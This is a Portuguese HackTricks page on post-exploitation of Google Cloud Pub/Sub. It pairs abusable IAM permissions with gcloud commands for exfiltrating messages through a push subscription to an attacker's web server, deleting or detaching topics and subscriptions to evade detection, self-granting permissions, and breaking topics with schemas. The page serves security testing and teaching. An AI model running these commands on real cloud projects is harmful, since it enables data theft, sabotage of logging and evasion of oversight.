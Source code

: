 # GCP - Pós-Exploração do Pub/Sub

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Pub/Sub

Para mais informações sobre o Pub/Sub, consulte a seguinte página:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publicar uma mensagem em um tópico, útil para **enviar dados inesperados** e acionar funcionalidades inesperadas ou explorar vulnerabilidades:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Útil para evitar que uma assinatura receba mensagens, talvez para evitar detecção.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Útil para evitar que uma assinatura receba mensagens, talvez para evitar detecção.\
É possível excluir um tópico mesmo com assinaturas vinculadas a ele.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Utilize esta permissão para atualizar alguma configuração do tópico e interrompê-lo, como `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Conceda a si mesmo permissão para realizar qualquer um dos ataques anteriores.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Obtenha todas as mensagens em um servidor web:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Criar uma assinatura e usá-la para **receber mensagens**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Excluir uma assinatura** pode ser útil para interromper um sistema de processamento de logs ou algo semelhante:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### &#x20;`pubsub.subscriptions.update`

Use esta permissão para atualizar algumas configurações para que as mensagens sejam armazenadas em um local que você possa acessar (URL, tabela Big Query, Bucket) ou apenas para interrompê-las.

### `pubsub.subscriptions.setIamPolicy`

Conceda a si mesmo as permissões necessárias para realizar qualquer um dos ataques comentados anteriormente.

### `pubsub.schemas.delete`

Exclua um esquema para poder enviar mensagens que não estejam em conformidade com o esquema:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Anexar um esquema a um tópico para que as mensagens não o cumpram e, portanto, o tópico seja interrompido.\
Se não houver esquemas, pode ser necessário criar um.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.setIamPolicy`

Conceda a si mesmo as permissões necessárias para realizar qualquer um dos ataques comentados anteriormente.

### `pubsub.snapshots.create`,  `pubsub.snapshots.seek`

Isso criará um snapshot de todas as mensagens não confirmadas e as colocará de volta na assinatura. Não é muito útil para um atacante, mas aqui está:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
